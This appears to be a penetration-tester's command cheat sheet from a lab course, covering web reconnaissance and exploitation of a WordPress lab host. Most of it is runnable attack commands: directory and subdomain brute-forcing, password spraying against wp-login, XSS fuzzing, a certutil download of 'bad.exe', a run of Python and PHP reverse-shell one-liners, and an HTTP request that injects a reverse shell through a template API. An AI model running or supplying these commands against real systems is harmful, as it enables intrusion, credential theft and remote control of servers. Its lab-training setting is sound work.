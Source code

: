 ### NMAP
nmap -p80 --script=http-enum 172.16.80.1

nmap -p80 --script=http-methods --script-args http-methods.url-path='/wp-includes/' $IP

nmap -p80 -sV --script http-wordpress-enum offsecwp

### CEWL

sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com

ls -sa /usr/bin | sed 's/[0-9]*//g' | sed -r 's/\s+//g' |sort -u > $HOME/binaries-wordlist.txt

### GOBUSTER


gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301

gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

### CERTUTIL

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe


### HAKRAWLER

sudo apt-get install -y hakrawler
which hakrawler

echo "https://www.megacorpone.com/" > urls.txt
cat urls.txt |./hakrawler


### WFUZZ

#### Discover files:

export URL="http://offsecwp:80/FUZZ"
echo $URL

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"

#### Discover Directories:

export URL="http://offsecwp:80/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"

#### Parameter Discovery:

export URL="http://offsecwp:80/index.php?FUZZ=data"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"

#### Fuzzing Parameter Values:

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

One might need to adjust excluded response code.

wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt  --hh 0  http://offsecwp:80/index.php?xss=FUZZ


#### Fuzzing POST Data:

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php

export URL="http://offsecwp:80/wp-login.php"
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"


### SHELLS

Python reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

PHP Reverse Shell:

php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'




<?php

passthru("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.194\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'");

?>



POST /api/php HTTP/1.1
Host: 192.168.194.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 285
Origin: http://192.168.194.101
Connection: close
Referer: http://192.168.194.101/

{"template":"\n\npassthru(\"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.49.194\\\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\\\"/bin/bash\\\")'\");\n\n","vars":{}}


